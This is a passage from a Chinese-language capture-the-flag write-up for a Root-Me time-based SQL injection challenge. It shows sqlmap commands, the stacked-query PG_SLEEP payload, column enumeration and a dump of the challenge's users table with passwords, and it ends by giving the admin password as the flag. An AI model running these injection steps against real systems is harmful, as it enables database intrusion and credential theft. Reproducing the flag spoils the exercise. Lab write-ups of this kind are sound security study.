S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 -D public -T users --columns
___
__H__
___ ___[(]_____ ___ ___ {1.3.3.23#dev}
|_ -| . [(] | .'| . |
|___|_ [)]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 10:06:25 /2019-03-17/
[10:06:25] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[10:06:26] [INFO] resuming back-end DBMS 'postgresql'
[10:06:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
Type: stacked queries
Title: PostgreSQL > 8.1 stacked queries (comment)
Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[10:06:26] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[10:06:26] [INFO] fetching columns for table 'users' in database 'public'
[10:06:27] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:06:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
6
[10:07:06] [INFO] retrieved: id
[10:07:31] [INFO] retrieved: int4
[10:08:21] [INFO] retrieved: username
[10:09:51] [INFO] retrieved: varchar
[10:11:09] [INFO] retrieved: firstname
[10:12:52] [INFO] retrieved: varchar
[10:14:10] [INFO] retrieved: lastname
[10:15:41] [INFO] retrieved: varchar
[10:17:00] [INFO] retrieved: email
[10:17:55] [INFO] retrieved: varchar
[10:22:02] [INFO] retrieved: password
[10:23:42] [INFO] retrieved: varchar
Database: public
Table: users
[6 columns]
+-----------+---------+
| Column | Type |
+-----------+---------+
| email | varchar |
| firstname | varchar |
| id | int4 |
| lastname | varchar |
| password | varchar |
| username | varchar |
+-----------+---------+
[10:25:00] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'
[*] ending @ 10:25:00 /2019-03-17/
获得表数据
得到表 users 的所有列名后，就可以通过 sqlmap 的 -C 参数指定这些列，再通过 --dump 得到每列的数据：
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 -D public -T users -C id,email,usermame,password,firstname,lastname --dump
___
__H__
___ ___["]_____ ___ ___ {1.3.3.23#dev}
|_ -| . ["] | .'| . |
|___|_ [,]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 10:29:48 /2019-03-17/
[10:29:48] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[10:29:48] [INFO] resuming back-end DBMS 'postgresql'
[10:29:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
Type: stacked queries
Title: PostgreSQL > 8.1 stacked queries (comment)
Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[10:29:49] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[10:29:49] [INFO] fetching entries of column(s) 'email, firstname, id, lastname, password, usermame' for table 'users' in database 'public'
[10:29:49] [INFO] fetching number of column(s) 'email, firstname, id, lastname, password, usermame' entries for table 'users' in database 'public'
[10:29:49] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:30:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
3
[10:30:35] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[10:30:45] [INFO] retrieved: ycam@sqlitimebased.com
[10:35:34] [INFO] retrieved: Yann
[10:36:25] [INFO] retrieved: 1
[10:36:37] [INFO] retrieved: MAC
[10:37:09] [INFO] retrieved: T!m3B@s3DSQL!
[10:40:23] [INFO] retrieved:
[10:40:25] [INFO] retrieved: jsilver@sqlitimebased.com
[10:45:40] [INFO] retrieved: John
[10:46:37] [INFO] retrieved: 2
[10:46:51] [INFO] retrieved: SILVER
[10:48:05] [INFO] retrieved: J0hNG0lDeN
[10:50:32] [INFO] retrieved:
[10:50:34] [INFO] retrieved: jsparow@sqlitimebased.com
[10:55:25] [INFO] retrieved: Jack
[10:56:09] [INFO] retrieved: 3
[10:56:23] [INFO] retrieved: SPAROW
[10:57:41] [INFO] retrieved: Sp@r0WKr@K3n
[11:00:38] [INFO] retrieved:
Database: public
Table: users
[3 entries]
+----+---------------------------+----------+---------------+-----------+----------+
| id | email | usermame | password | firstname | lastname |
+----+---------------------------+----------+---------------+-----------+----------+
| 1 | ycam@sqlitimebased.com | | T!m3B@s3DSQL! | Yann | MAC |
| 2 | jsilver@sqlitimebased.com | | J0hNG0lDeN | John | SILVER |
| 3 | jsparow@sqlitimebased.com | | Sp@r0WKr@K3n | Jack | SPAROW |
+----+---------------------------+----------+---------------+-----------+----------+
[11:00:41] [INFO] table 'public.users' dumped to CSV file 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org\dump\public\users.csv'
[11:00:41] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'
[*] ending @ 11:00:41 /2019-03-17/ 
完成挑战
从获得的表数据来看，虽然得到了所有用户的 password，但是 username 一列是空的，换言之我们同样不知道哪个用户是哪个密码。
但是 http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist 这个页面早就告诉了我们每个用户名和其 id 的对应关系了，其中 admin 的 id 是 1 ，所以其密码是 T!m3B@s3DSQL! 。

登陆后得知 admin 的密码就是 flag ，完成挑战。

答案下载
flag 下载后的 flagzip 的文件需要手动更改后缀为
*.zip，然后解压即可（为了避免直接刷答案）